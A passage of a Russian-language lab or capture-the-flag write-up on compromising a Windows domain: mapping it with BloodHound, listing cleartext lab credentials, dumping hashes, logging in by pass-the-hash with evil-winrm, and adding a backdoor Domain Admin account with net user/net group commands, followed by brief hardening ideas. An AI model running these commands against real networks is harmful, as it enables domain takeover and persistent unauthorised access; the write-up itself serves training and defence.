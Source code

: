 Далее загружаем себе на машину получившийся файл командой **upload <file>**
Для дальнейшего просмотра сети загрузим один из релизов BloodHound с официального github-репозитория - https://github.com/BloodHoundAD/BloodHound
    
Распаковываем .zip файл, заходим в получившуюся папку и записываем команды:
**sudo neo4j start** 
**./BloodHound**

После запуска загружаем скачанный с 10.20.239.6 архив по кнопке "Upload Data"
Изучив сеть, по итогу получаем такую картину:
![](https://i.imgur.com/8MEGnzH.png)
    
    
# Пользователи
oper:Mexico1
Administrator:Server1
    
    
# Получение Domain Admin access
После получения system access на 10.20.4.8 
![](https://i.imgur.com/2d6pPF0.png)
Дампим все хэши, получаем хэш `cadm` пользователя и при помощи техники PassTheHash логинимся на сервере:
> evil-winrm -i 10.20.3.10 -u cadm -H 3e3b...4e55

Получаем учетку на сервере и создаем нового пользоателя, чтобы иметь возможность восстановить другие компьютеры, не имея пароля к `cadm`.
>cmd /c 'net user /add Fox Eg123!! /domain'
>cmd /c 'net group "Domain Admins" Fox /add /domain'
    
Теперь пользователь `Fox` является Domain Admin, что позволяет нам подключаться к любому компьютеру. 
    
    
    

# Идеи для защиты
- На каждом сервере выключен firewall, что небезопасно. Нужно включить 
![](https://i.imgur.com/hngRmos.png)
    > netsh advfirewall set allprofiles state on
- Смена паролей на всех учетных данных(пример для администратора)
    > net user Administrator SuperSecretPassword123! /domain
- Обновление всех машин до последней версии
- Обновление всех сервисов до последней версии
